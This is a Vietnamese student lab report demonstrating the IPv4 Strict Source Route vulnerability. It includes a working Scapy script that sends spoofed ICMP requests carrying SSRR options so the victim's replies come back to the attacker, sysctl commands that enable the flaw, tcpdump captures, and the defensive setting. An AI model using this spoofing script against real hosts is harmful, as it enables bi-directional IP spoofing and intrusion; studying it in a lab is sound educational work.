

# BÁO CÁO THỰC HÀNH CHI TIẾT — BÀI LAB 02
## Đề tài: Lỗ hổng bảo mật loại Source Routing (IP Source Routing - SSRR/LSRR Vulnerability)

---

## I. MỤC TIÊU BÀI THỰC HÀNH

1. **Hiểu bản chất của cơ chế Source Routing trong IPv4 (RFC 791)**: 
   * Tùy chọn định tuyến tại nguồn cho phép người gửi tự vẽ lộ trình đường đi cho gói tin thay vì để hệ thống mạng (Router) quyết định.
   * Phân biệt giữa **SSRR (Strict Source Route)** và **LSRR (Loose Source Route)**.
2. **Hiểu mức độ nguy hiểm của Source Routing**:
   * Khái niệm **Giả mạo IP hai chiều (Bi-directional Spoofing)**: Kẻ tấn công vừa có thể giả mạo địa chỉ IP nguồn (IP Spoofing) vừa có thể ép bên nhận gửi thư trả lời về tận tay mình bằng cách đảo ngược lộ trình (Reverse Route).
3. **Thực hành tấn công & Kiểm chứng**:
   * Tái tạo môi trường dễ bị tấn công trên nhân Linux (`accept_source_route = 1`, `rp_filter = 0`).
   * Sử dụng Python Scapy chế tạo gói tin ICMP Echo Request mang nhãn IP nguồn giả mạo (`10.0.0.77`) và nhồi tùy chọn `IPOption_SSRR` ép đường về qua Attacker (`10.0.0.1`).
   * Sử dụng `tcpdump` bắt và phân tích gói tin IP Options.
4. **Triển khai phòng thủ toàn diện (Defense-in-depth)**:
   * Phòng thủ tại máy chủ (`accept_source_route = 0`).
   * Hiểu lý do tại sao phải kết hợp phòng thủ ở biên mạng (Edge Filtering theo RFC 7126) và phòng thủ nội bộ.

---

## II. KIẾN THỨC NỀN TẢNG CỐT LÕI

### 1. Nguyên lý định tuyến thông thường vs. Định tuyến tại nguồn
* **Định tuyến thông thường (Hop-by-Hop Routing)**: Người gửi chỉ điền địa chỉ người nhận (`Destination IP`). Các Router dọc đường sẽ tự tra bảng định tuyến để tìm đường đi tối ưu nhất đến đích.
* **Định tuyến tại nguồn (Source Routing)**: Người gửi chỉ định cụ thể danh sách các trạm Router mà gói tin **bắt buộc phải ghé qua**.
  * **SSRR (Strict Source and Record Route - Code 137)**: Gói tin **chỉ được phép** đi qua chính xác lần lượt từng IP chỉ định, tuyệt đối không được rẽ ngang qua bất kỳ Router nào khác.
  * **LSRR (Loose Source and Record Route - Code 131)**: Gói tin phải đi qua các mốc chỉ định, giữa các mốc có thể đi qua bao nhiêu Router trung gian tùy ý.

### 2. Cấu trúc trường IP Options và trường IHL
* Header IP tiêu chuẩn không có options có độ dài cố định là **20 byte**, tương ứng trường độ dài Header:
  $$\text{IHL (Internet Header Length)} = \frac{20 \text{ bytes}}{4} = 5$$
* Khi gói tin có kèm tùy chọn IP Options (như SSRR), Header IP sẽ phình to ra ($\text{độ dài} > 20 \text{ byte}$). Do đó:
  $$\text{IHL} > 5$$
  *(Đây chính là dấu hiệu nhận biết then chốt để các thiết bị tường lửa hoặc lệnh `tcpdump 'ip[0] & 0x0f > 5'` tóm gọn gói tin).*



### 3. Hiểm họa: Giả mạo IP hai chiều (Bi-directional Spoofing)
* Nếu không có SSRR, khi Attacker gửi gói tin mang IP giả mạo `10.0.0.77` đến Victim, Victim sẽ gửi thư phản hồi về thẳng máy `10.0.0.77`. Attacker hoàn toàn không nhận được gì (Tấn công mù - 1 chiều).
* Khi có SSRR, theo chuẩn RFC 791, **Victim bắt buộc phải đảo ngược lộ trình (Reverse Route)** khi gửi phản hồi:
  $$\text{Chiều đi:} \quad 10.0.0.77 \longrightarrow 10.0.0.1 \text{ (Attacker)} \longrightarrow 10.0.0.2 \text{ (Victim)}$$
  $$\text{Chiều về (Đảo ngược):} \quad 10.0.0.2 \longrightarrow \mathbf{10.0.0.1 \text{ (Attacker hớt tay trên)}} \longrightarrow 10.0.0.77$$
* Hậu quả: Attacker đứng tại `10.0.0.1` đọc trọn vẹn toàn bộ dữ liệu phản hồi dù đã giấu mặt dưới danh tính của `10.0.0.77`!

---

## III. GIẢI THÍCH CHI TIẾT FILE MÃ NGUỒN `ssrr.py`

File thực thi chính của bài lab được lưu tại: `/home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP_2MayThat/ssrr.py` (Hỗ trợ linh hoạt cả 2 máy vật lý qua Wi-Fi lẫn 1 máy ảo hóa qua Network Namespace):

```python
#!/usr/bin/env python3
# ssrr.py - Gui goi tin ICMP Echo kem tuy chon SSRR (Strict Source Route)
# Ho tro: 2 may that (Wi-Fi) hoac Network Namespace
import sys
import time
from scapy.all import *

victim_ip   = sys.argv[1] if len(sys.argv) > 1 else "10.0.0.2"
attacker_ip = sys.argv[2] if len(sys.argv) > 2 else "10.0.0.1"
iface       = sys.argv[3] if len(sys.argv) > 3 else (conf.iface or "wlan0")

# Tu dong sinh IP gia mao phu hop voi dai mang
if len(sys.argv) > 4:
    spoof_ip = sys.argv[4]
else:
    if victim_ip.startswith("192.168."):
        prefix = ".".join(victim_ip.split(".")[:3])
        spoof_ip = f"{prefix}.222"
    else:
        spoof_ip = "10.0.0.77"

print("==================================================================")
print("[*] TAN CONG DINH TUYEN TAI NGUON (IP SOURCE ROUTING - SSRR)")
print("==================================================================")
print(f"[*] IP nguon GIA MAO:            {spoof_ip}")
print(f"[*] IP nan nhan (Victim):        {victim_ip}")
print(f"[*] IP ke tan cong (Attacker):   {attacker_ip}")
print(f"[*] Card mang su dung:           {iface}")
print(f"[*] SSRR ep lo trinh quay ve:    {attacker_ip} -> {victim_ip}")
print("==================================================================")

# 1. Che tao goi tin SSRR chuan:
# Dat pointer = 8 de Victim nhan dien minh la chang den,
# tu do kich hoat co che dao nguoc lo trinh (reverse route) gui phan hoi ve Attacker
pkt = IP(src=spoof_ip, dst=victim_ip,
         options=[IPOption_SSRR(routers=[attacker_ip, victim_ip], pointer=8)]) \
      /ICMP(id=0x4242)/b"src-routed-probe-by-attacker"

# 2. Bat may nghe len tren card mang chi bat dung goi Echo Reply (type 0) tra ve cho attacker_ip
sniffer = AsyncSniffer(iface=iface, timeout=4, count=1,
                       filter=f"icmp and icmp[icmptype] == 0 and dst host {attacker_ip}")
sniffer.start()
time.sleep(0.3)

# 3. Phat dong gui goi tin
print(f"\n[*] Dang gui goi tin ICMP co tuy chon SSRR toi {victim_ip}...")
send(pkt, iface=iface, verbose=0)

# 4. Thu hoach ket qua
sniffer.join()
if sniffer.results:
    reply = sniffer.results[0]
    print(f"\n[+] TAN CONG THANH CONG!")
    print(f"    - Attacker ({attacker_ip}) da hung duoc goi tin tu: {reply[IP].src}")
    print(f"    - Dich cua goi phan hoi: {reply[IP].dst}")
    print(f"\n[=>] KET LUAN:")
    print(f"     Mac du goi gui di mang IP gia mao la {spoof_ip}, nhung nho tuy chon SSRR,")
    print(f"     Victim da dao nguoc lo trinh va gui phan hoi ve dung tay Attacker ({attacker_ip})!")
    print("     Day chinh la nguy co cua Source Routing: Cho phep gia mao IP 2 chieu!")
else:
    print(f"\n[-] Attacker ({attacker_ip}) KHONG nhan duoc goi phan hoi nao.")
    print("    [=>] Giai thich: Victim da loai bo goi tin hoac Router Wi-Fi da loc bo IP Options.")
    print("         (Neu muon thu nghiem khong bi Router chan, hay dung che do Wi-Fi Hotspot truc tiep!)")
```

### Các điểm mấu chốt trong mã nguồn:
1. **Khả năng nhận tham số động**: Script tự động thích ứng khi chạy trên 2 máy vật lý (`python3 ssrr.py <IP_Victim> <IP_Attacker> wlan0`) hoặc trong namespace ảo (`python3 ssrr.py`).
2. **`IPOption_SSRR(routers=[attacker_ip, victim_ip], pointer=8)`**:
   * Khắc phục lỗi mặc định của Scapy (`pointer=4`). Việc đặt `pointer=8` chỉ thẳng vào máy Victim giúp nhân Linux của máy Victim hiểu rằng gói tin đã đến đích cuối cùng của chặng đi, từ đó gọi hàm `ip_options_echo()` trong Kernel để đảo ngược danh sách router khi sinh gói Echo Reply.
3. **`filter=f"icmp and icmp[icmptype] == 0 and dst host {attacker_ip}"`**:
   * Bộ lọc BPF chuẩn xác: Chỉ bắt đúng gói ICMP loại 0 (Echo Reply) dội về địa chỉ của Attacker, tránh việc bắt nhầm gói Echo Request do chính máy mình phát đi.

---

## IV. QUÁ TRÌNH THỰC HÀNH & KẾT QUẢ ĐẠT ĐƯỢC

### PHƯƠNG ÁN 1: TRIỂN KHAI TRÊN 2 MÁY THẬT KALI LINUX (CÙNG KẾT NỐI WI-FI)

> [!TIP]
> **Lưu ý đặc thù về Router Wi-Fi:** Một số Router Wi-Fi gia đình hiện đại có tính năng tường lửa tự động loại bỏ các gói tin mang IP Options (`IHL > 5`). Để bài lab hoạt động ổn định và mượt mà nhất 100%, **khuyến nghị bật Mobile Hotspot trên Máy 2 (Victim) hoặc trên điện thoại** rồi cho Máy 1 (Attacker) kết nối vào, giúp tạo liên kết Layer 2 trong suốt không bị router trung gian lọc bỏ options!

#### Thiết lập ban đầu:
* **Máy 1 (Attacker)**: IP Wi-Fi (ví dụ: `192.168.1.50`), card mạng `wlan0`.
* **Máy 2 (Victim)**: IP Wi-Fi (ví dụ: `192.168.1.100`), card mạng `wlan0`.

#### Kịch bản 1 — Khi Máy 2 chưa phòng thủ (`accept_source_route = 1`):
1. **Trên Máy 2 (Victim)**: Mở quyền root (`sudo su`) và kích hoạt lỗ hổng:
   ```bash
   sudo sysctl -w net.ipv4.conf.all.accept_source_route=1
   sudo sysctl -w net.ipv4.conf.wlan0.accept_source_route=1
   sudo sysctl -w net.ipv4.conf.all.rp_filter=0
   sudo sysctl -w net.ipv4.conf.wlan0.rp_filter=0
   sudo sysctl -w net.ipv4.ip_forward=1
   ```
2. **Trên Máy 2 (Victim)**: Bật `tcpdump` quan sát các gói ICMP trên card `wlan0`:
   ```bash
   sudo tcpdump -i wlan0 -nn -v icmp
   ```
3. **Trên Máy 1 (Attacker)**: Phát động tấn công SSRR nhắm vào Máy 2:
   ```bash
   sudo python3 ssrr.py 192.168.1.100 192.168.1.50 wlan0
   ```

#### Kết quả quan sát Kịch bản 1:
* **Tại Máy 2 (Victim - `tcpdump`)**: Xuất hiện 2 dòng gói tin rõ rệt:
  ```text
  IP options (SSRR 192.168.1.50 192.168.1.100, EOL) 192.168.1.222 > 192.168.1.100: ICMP echo request, length 36
  IP options (SSRR 192.168.1.222, EOL) 192.168.1.100 > 192.168.1.50: ICMP echo reply, length 36
  ```
  *(Dòng 2 chứng minh: Máy 2 trả lời cho IP giả mạo `192.168.1.222`, nhưng do bị SSRR ép buộc, gói Echo Reply đã bị bẻ lái gửi thẳng về địa chỉ `192.168.1.50` của Máy 1).*
* **Tại Máy 1 (Attacker)**: Màn hình hiển thị:
  ```text
  [+] TAN CONG THANH CONG!
      - Attacker (192.168.1.50) da hung duoc goi tin tu: 192.168.1.100
      - Dich cua goi phan hoi: 192.168.1.50
  ```

#### Kịch bản 2 — Khi bật cơ chế phòng thủ (`accept_source_route = 0`):
1. **Trên Máy 2 (Victim)**: Bật cấm nhận gói tin có Source Route:
   ```bash
   sudo sysctl -w net.ipv4.conf.all.accept_source_route=0
   sudo sysctl -w net.ipv4.conf.wlan0.accept_source_route=0
   sudo tcpdump -i wlan0 -nn -v icmp
   ```
2. **Trên Máy 1 (Attacker)**: Chạy lại kịch bản tấn công:
   ```bash
   sudo python3 ssrr.py 192.168.1.100 192.168.1.50 wlan0
   ```
3. **Kết quả quan sát Kịch bản 2**:
   * Tại Máy 2: `tcpdump` chỉ ghi nhận 1 gói Echo Request đến, Kernel phát hiện cờ SSRR và drop ngay, **hoàn toàn không có gói Echo Reply nào được sinh ra**.
   * Tại Máy 1: Báo timeout không nhận được phản hồi, củng cố phòng thủ thành công!

---

### PHƯƠNG ÁN 2: TRIỂN KHAI TRÊN 1 MÁY MÔ PHỎNG QUA NETWORK NAMESPACE

#### Bố trí môi trường:
* **Khởi tạo:** `sudo bash setup_pair.sh` tạo 2 máy ảo:
  * Máy `h1` (`10.0.0.1` - Attacker) cắm card `veth1`.
  * Máy `h2` (`10.0.0.2` - Victim) cắm card `veth2`.

#### Kịch bản 1 — Chưa phòng thủ:
1. Trên `h2`:
   ```bash
   sudo ip netns exec h2 sysctl -w net.ipv4.conf.all.accept_source_route=1 net.ipv4.conf.veth2.accept_source_route=1 net.ipv4.ip_forward=1
   sudo ip netns exec h2 tcpdump -i veth2 -nn -v icmp
   ```
2. Trên `h1`:
   ```bash
   sudo ip netns exec h1 python3 ssrr.py
   ```
* **Kết quả:** `tcpdump` trên `h2` ghi nhận gói Request từ `10.0.0.77` và gói Reply dội về `10.0.0.1`. Trên `h1` báo tấn công thành công!

#### Kịch bản 2 — Bật phòng thủ:
1. Trên `h2`:
   ```bash
   sudo ip netns exec h2 sysctl -w net.ipv4.conf.all.accept_source_route=0 net.ipv4.conf.veth2.accept_source_route=0
   sudo ip netns exec h2 tcpdump -i veth2 -nn -v icmp
   ```
2. Trên `h1`:
   ```bash
   sudo ip netns exec h1 python3 ssrr.py
   ```
* **Kết quả:** `h2` tiêu hủy gói tin, `h1` báo timeout, an toàn tuyệt đối.

---

### Kỹ thuật phát hiện gói tin có IP Options bằng tcpdump
* Câu lệnh: `tcpdump -i wlan0 -nn -v 'ip[0] & 0x0f > 5'` (hoặc `-i veth2`)
* Giải thích toán tử bit:
  * `ip[0]`: Byte đầu tiên của IP Header (gồm 4 bit Version và 4 bit IHL).
  * `& 0x0f`: Phép toán AND bit để lọc lấy riêng 4 bit của trường IHL.
  * `> 5`: Nếu IHL lớn hơn 5 (tức Header dài hơn 20 byte tiêu chuẩn) thì bắt giữ gói tin.

---

## V. ĐÁP ÁN 4 CÂU HỎI ÔN TẬP CỦA GIẢNG VIÊN

| STT | Câu hỏi của Giảng viên | Đáp án chi tiết & Ăn điểm tuyệt đối |
| :---: | :--- | :--- |
| **1** | *Phân biệt Loose (LSRR) và Strict (SSRR) source routing. Trường IHL thay đổi thế nào khi có tùy chọn này?* | **Đáp:** SSRR bắt buộc gói tin phải đi qua chính xác lần lượt từng IP chỉ định, không được phép rẽ qua bất kỳ router nào khác. LSRR chỉ định các trạm mốc, giữa các mốc có thể đi qua router trung gian tùy ý. Khi có thêm tùy chọn này, IP Header có thêm dữ liệu tùy chọn nên kích thước vượt quá 20 byte tiêu chuẩn, dẫn đến trường **IHL > 5**. |
| **2** | *Vì sao source routing phá vỡ hiệu quả của reverse-path filtering (rp_filter) trong việc chống giả mạo nguồn?* | **Đáp:** Cơ chế `rp_filter` kiểm tra xem đường quay về IP nguồn có khớp với card mạng vừa nhận gói tin hay không. Khi có Source Routing, đường quay về không còn đi theo bảng định tuyến mặc định của mạng nữa mà bị ép đi theo danh sách router chỉ định, khiến việc kiểm tra đường về bị vô hiệu hóa hoặc cho phép gói tin giả mạo lọt qua trót lọt. |
| **3** | *Trong Bước 2.1, nếu không có SSRR, phản hồi của victim sẽ đi về đâu? Vì sao attacker không nhận được?* | **Đáp:** Nếu không có SSRR, theo cơ chế định tuyến thông thường, Victim sẽ gửi gói tin phản hồi về đúng địa chỉ ghi ở IP nguồn là `10.0.0.77`. Do Attacker có IP thật là `10.0.0.1` (khác với `10.0.0.77`), Attacker sẽ không bao giờ nhận được phản hồi này. |
| **4** | *Nêu hai nơi nên lọc gói source-routed và giải thích vì sao lọc ở biên mạng (edge) là quan trọng nhất?* | **Đáp:** Hai nơi cần lọc: (1) Tại Router/Firewall biên mạng, và (2) Tại từng máy chủ/máy trạm nội bộ. Lọc ở biên mạng là quan trọng nhất vì Router biên là "cổng thành" duy nhất tiếp giáp Internet; lọc tại đây giúp tiêu diệt toàn bộ lưu lượng độc hại từ ngoài tràn vào, bảo vệ tập trung cho toàn bộ hàng ngàn máy tính bên trong mà không phụ thuộc vào cấu hình riêng lẻ của từng máy. |

---

## VI. KỊCH BẢN THUYẾT TRÌNH KHI QUAY VIDEO (VOICEOVER)

Báo cáo cung cấp **2 phương án kịch bản tương ứng**:
* **Kịch bản A:** Dành cho quay video trực tiếp trên **2 máy vật lý Kali Linux qua Wi-Fi / Hotspot**.
* **Kịch bản B:** Dành cho quay video trên **1 máy Kali Linux mô phỏng bằng Network Namespace**.

---

### KỊCH BẢN A: DÀNH CHO QUAY VIDEO TRÊN 2 MÁY THẬT (QUA MẠNG WI-FI / HOTSPOT)

> **Bố cục đề xuất khi quay video:**
> * **Máy 1 (Bên trái):** Kali Linux - Máy Attacker (IP ví dụ: `192.168.1.50`, card `wlan0`).
> * **Máy 2 (Bên phải):** Kali Linux - Máy Nạn nhân Victim (IP ví dụ: `192.168.1.100`, card `wlan0`).
> * *Nguyên tắc:* Gõ lệnh tới đâu, giải thích ngay chức năng và ý nghĩa kỹ thuật tới đó.

#### [0:00 - 0:35] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay nhóm em xin trình bày bài thực hành số 02: Khai thác lỗ hổng Định tuyến tại nguồn IP Strict Source Route (SSRR) trên môi trường 2 máy tính vật lý Kali Linux cùng kết nối mạng Wi-Fi. Định tuyến tại nguồn là tính năng cổ điển trong chuẩn IPv4 cho phép người gửi tự vẽ lộ trình cho gói tin. Lỗ hổng nguy hiểm ở chỗ: Kẻ tấn công có thể giả mạo một địa chỉ IP nguồn bất kỳ, nhưng dùng tùy chọn SSRR để ép nạn nhân phải gửi thư phản hồi về thẳng máy của kẻ tấn công, thực hiện thành công kỹ thuật giả mạo IP 2 chiều!"*

#### [0:35 - 1:15] Bước 1: Kiểm tra kết nối mạng giữa 2 máy thật
* **Thao tác 1 (Trên Máy 2 - Kiểm tra IP):**
  ```bash
  ip -br addr show wlan0
  ```
  * **Lời thoại:**
    *"Trước hết, trên Máy 2 bên phải, em kiểm tra địa chỉ IP Wi-Fi bằng lệnh `ip -br addr show wlan0`. Máy nạn nhân có địa chỉ IP là `192.168.1.100`."*

* **Thao tác 2 (Trên Máy 1 - Kiểm tra IP & Ping sang Máy 2):**
  ```bash
  ip -br addr show wlan0
  ping -c 2 192.168.1.100
  ```
  * **Lời thoại:**
    *"Trên Máy 1 bên trái, em kiểm tra IP của mình là `192.168.1.50` và gửi 2 gói ping sang Máy 2. Kết quả phản hồi 0% packet loss, hai máy vật lý đã thông tuyến Layer 2 qua Wi-Fi!"*

#### [1:15 - 2:30] Bước 2: Kịch bản 1 — Máy 2 mở lỗ hổng Source Route & Bị khai thác
* **Thao tác 1 (Trên Máy 2 - Kích hoạt lỗ hổng):**
  ```bash
  sudo sysctl -w net.ipv4.conf.all.accept_source_route=1
  sudo sysctl -w net.ipv4.conf.wlan0.accept_source_route=1
  sudo sysctl -w net.ipv4.conf.all.rp_filter=0
  sudo sysctl -w net.ipv4.conf.wlan0.rp_filter=0
  sudo sysctl -w net.ipv4.ip_forward=1
  ```
  * **Lời thoại:**
    *"Tại Máy 2, em đóng vai người quản trị hệ thống kích hoạt tính năng chấp nhận Source Route bằng cách bật `accept_source_route=1` và tắt bộ lọc kiểm tra nguồn `rp_filter=0` trên interface `wlan0`."*

* **Thao tác 2 (Trên Máy 2 - Bật tcpdump bắt gói tin ICMP):**
  ```bash
  sudo tcpdump -i wlan0 -nn -v icmp
  ```
  * **Lời thoại:**
    *"Sau đó, trên Máy 2 em bật `tcpdump -i wlan0 -nn -v icmp` để quan sát toàn bộ các gói tin ICMP ra vào card Wi-Fi."*

* **Thao tác 3 (Trên Máy 1 - Chạy script tấn công SSRR):**
  ```bash
  sudo python3 ssrr.py 192.168.1.100 192.168.1.50 wlan0
  ```
  * **Lời thoại:**
    *"Tại Máy 1, em chạy lệnh `sudo python3 ssrr.py 192.168.1.100 192.168.1.50 wlan0`. Script Scapy này thực hiện điều kỳ diệu:
    * Nó gửi một gói ICMP Echo Request mang IP nguồn giả mạo là `192.168.1.222` — một IP hoàn toàn không tồn tại.
    * Gắn thêm tùy chọn `IPOption_SSRR` với pointer=8 chỉ định trạm quay về là `192.168.1.50` (Attacker) rồi tới `192.168.1.100` (Victim).
    
    *Thầy và các bạn hãy nhìn vào màn hình:*
    * *Trên Máy 2 (tcpdump): Gói tin đến ghi người gửi là `192.168.1.222`. Nhưng khi Máy 2 trả lời, Kernel bị ép buộc đảo ngược lộ trình và gửi gói Echo Reply thẳng về `192.168.1.50`!*
    * *Trên Máy 1: Script in ra dòng thông báo màu xanh `[+] TAN CONG THANH CONG! Attacker (192.168.1.50) da hung duoc goi tin tu: 192.168.1.100`! Kẻ tấn công vừa giấu được danh tính, vừa nhận trọn vẹn dữ liệu phản hồi!"*

#### [2:30 - 3:30] Bước 3: Kịch bản 2 — Kích hoạt phòng thủ & Triệt tiêu lỗ hổng
* **Thao tác 1 (Trên Máy 2 - Nhấn Ctrl+C dừng tcpdump, bật cấm Source Route):**
  ```bash
  sudo sysctl -w net.ipv4.conf.all.accept_source_route=0
  sudo sysctl -w net.ipv4.conf.wlan0.accept_source_route=0
  sudo tcpdump -i wlan0 -nn -v icmp
  ```
  * **Lời thoại:**
    *"Bây giờ em tiến hành khắc phục lỗ hổng trên Máy 2 bằng cách đặt `accept_source_route=0` trên toàn bộ interface theo đúng tiêu chuẩn an toàn an ninh mạng hiện đại, rồi tiếp tục bật tcpdump quan sát."*

* **Thao tác 2 (Trên Máy 1 - Chạy lại script tấn công):**
  ```bash
  sudo python3 ssrr.py 192.168.1.100 192.168.1.50 wlan0
  ```
  * **Lời thoại:**
    *"Từ Máy 1, em chạy lại lệnh tấn công. Sau 4 giây, màn hình Máy 1 báo timeout: `[-] Attacker KHONG nhan duoc goi phan hoi nao`.
    
    *Quan sát tcpdump trên Máy 2: Gói tin ICMP mang tùy chọn SSRR vẫn tới card mạng, nhưng nhân Linux phát hiện có IP Options trái phép nên đã chủ động hủy bỏ (drop) gói tin ngay tại tầng mạng, hoàn toàn không sinh ra gói Reply nào dội về cho kẻ tấn công nữa!"*

#### [3:30 - 4:10] Bước 4: Tổng kết & Biện pháp an ninh mạng
* **Lời thoại:**
  *"Qua thực nghiệm trên 2 máy thật, chúng ta thấy rõ tính năng Source Routing phá vỡ hoàn toàn nguyên tắc kiểm tra địa chỉ nguồn. Để bảo vệ mạng nội bộ và máy chủ, quy tắc bắt buộc là phải vô hiệu hóa `accept_source_route=0` trên máy trạm và cấu hình lệnh `no ip source-route` trên tất cả Router biên và Firewall theo chuẩn RFC 7126. Nhóm em xin kết thúc bài thực hành số 02 tại đây. Cảm ơn thầy và các bạn đã lắng nghe!"*

---

### KỊCH BẢN B: DÀNH CHO QUAY VIDEO TRÊN 1 MÁY (MÔ PHỎNG NETWORK NAMESPACE)

> **Bố cục đề xuất khi quay video:**
> * Mở ứng dụng Konsole / Terminal và chia đôi màn hình (Split Screen):
>   * **Cửa sổ bên trái:** Máy Kẻ tấn công `h1` (`10.0.0.1`).
>   * **Cửa sổ bên phải:** Máy Nạn nhân `h2` (`10.0.0.2`).

#### [0:00 - 0:35] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay em xin trình bày bài thực hành số 02: Khai thác lỗ hổng Định tuyến tại nguồn IP Strict Source Route (SSRR). Định tuyến tại nguồn là tính năng sơ khai trong giao thức IPv4, cho phép người gửi tự vẽ lộ trình đường đi cho gói tin thay vì để router tự quyết định. Lỗ hổng nguy hiểm ở chỗ: Kẻ tấn công có thể giả mạo một địa chỉ IP nguồn bất kỳ, nhưng lại dùng tùy chọn SSRR để ép nạn nhân phải gửi dữ liệu phản hồi về máy của kẻ tấn công, phá vỡ hoàn toàn cơ chế bảo vệ lọc nguồn!"*

#### [0:35 - 1:10] Bước 1: Khởi tạo mô hình mạng ảo 2 máy
* **Thao tác trên terminal trái:**
  ```bash
  sudo bash setup_pair.sh
  ```
* **Lời thoại giải thích:**
  *"Trước tiên, em chạy lệnh `sudo bash setup_pair.sh`. Kịch bản này sử dụng Network Namespace để tạo ra hai máy ảo độc lập: máy tấn công h1 tại địa chỉ IP `10.0.0.1`, và máy nạn nhân h2 tại địa chỉ `10.0.0.2`, kết nối với nhau qua cặp card mạng ảo veth. Trên terminal hiển thị thông báo ping thành công 100%, môi trường mạng đã sẵn sàng cho bài thử nghiệm!"*

#### [1:10 - 2:20] Bước 2: Kịch bản 1 — Nạn nhân bật tính năng Source Route & Bị khai thác
* **Thao tác 1 (Terminal phải - Nạn nhân bật cấu hình nhận Source Route):**
  ```bash
  sudo ip netns exec h2 sysctl -w net.ipv4.conf.all.accept_source_route=1 net.ipv4.conf.h2-veth.accept_source_route=1 net.ipv4.ip_forward=1
  ```
  * **Lời thoại:**
    *"Ở kịch bản thứ nhất, em đóng vai người quản trị máy nạn nhân h2 kích hoạt tính năng chấp nhận Source Route bằng lệnh `sysctl accept_source_route=1`."*

* **Thao tác 2 (Terminal phải - Nạn nhân bật tcpdump bắt gói tin):**
  ```bash
  sudo ip netns exec h2 tcpdump -i h2-veth -nn -v icmp
  ```
  * **Lời thoại:**
    *"Tiếp theo, em chạy lệnh `tcpdump` trên interface `h2-veth` để theo dõi toàn bộ các gói tin ICMP đi vào và đi ra khỏi máy nạn nhân."*

* **Thao tác 3 (Terminal trái - Attacker kích hoạt tấn công):**
  ```bash
  sudo ip netns exec h1 python3 ssrr.py
  ```
  * **Lời thoại:**
    *"Bây giờ tại máy tấn công h1 bên trái, em thực thi script `ssrr.py`. File script Python này sử dụng Scapy để đóng gói một gói tin ICMP Echo Request đặc biệt:
    * Trường IP nguồn bị giả mạo thành `10.0.0.77`.
    * Trong phần IP Options, script gắn thêm tùy chọn SSRR (Type=137) với pointer=8 chỉ định lộ trình bắt buộc nạn nhân phải quay đầu về trạm kiểm soát `10.0.0.1` của attacker.
    
    *Thầy và các bạn hãy quan sát kết quả:*
    * Trên cửa sổ bên phải của tcpdump: Gói tin Request gửi tới ghi người gửi là `10.0.0.77`. Nhưng khi máy h2 phản hồi Echo Reply, do bị trói buộc bởi tùy chọn SSRR, gói Reply đã bị bẻ lái gửi thẳng về địa chỉ của kẻ tấn công là `10.0.0.1`!
    * Trên terminal trái: Script Python in ra dòng chữ: `[+] TAN CONG THANH CONG! Nhan duoc ICMP Echo Reply tu 10.0.0.2!` Cuộc tấn công giả mạo 2 chiều hoàn toàn thắng lợi!"*

#### [2:20 - 3:20] Bước 3: Kịch bản 2 — Kích hoạt phòng thủ & Kiểm chứng triệt tiêu lỗ hổng
* **Thao tác 1 (Terminal phải - Nhấn Ctrl+C dừng tcpdump, bật cấm Source Route):**
  ```bash
  sudo ip netns exec h2 sysctl -w net.ipv4.conf.all.accept_source_route=0 net.ipv4.conf.h2-veth.accept_source_route=0
  sudo ip netns exec h2 tcpdump -i h2-veth -nn icmp
  ```
  * **Lời thoại:**
    *"Bây giờ, em tiến hành biện pháp phòng vệ: Chuyển tham số bảo mật `accept_source_route` trên h2 về giá trị `0` theo đúng khuyến cáo an ninh mạng hiện đại, và tiếp tục bật tcpdump quan sát."*

* **Thao tác 2 (Terminal trái - Chạy lại script tấn công):**
  ```bash
  sudo ip netns exec h1 python3 ssrr.py
  ```
  * **Lời thoại:**
    *"Em chạy lại script `ssrr.py` từ máy tấn công. Kết quả trên terminal trái sau vài giây đã báo: `[-] Attacker KHONG nhan duoc goi phan hoi nao`.
    
    *Nhìn sang tcpdump bên phải: Máy nạn nhân h2 sau khi nhận được gói tin có chứa cờ SSRR đã nhận diện đây là hành vi bất thường và Kernel tự động thả rơi (drop) gói tin ngay tại tầng mạng, hoàn toàn không sinh ra gói Echo Reply nào để trả về cho kẻ tấn công nữa!"*

#### [3:20 - 4:00] Bước 4: Dọn dẹp môi trường & Tổng kết
* **Thao tác trên terminal trái:**
  ```bash
  sudo bash clean_pair.sh
  ```
* **Lời thoại giải thích:**
  *"Cuối cùng, em dọn dẹp môi trường bằng lệnh `clean_pair.sh` để giải phóng namespace và card mạng ảo. Em xin kết thúc bài thực hành số 02 tại đây. Cảm ơn thầy và các bạn đã theo dõi!"*

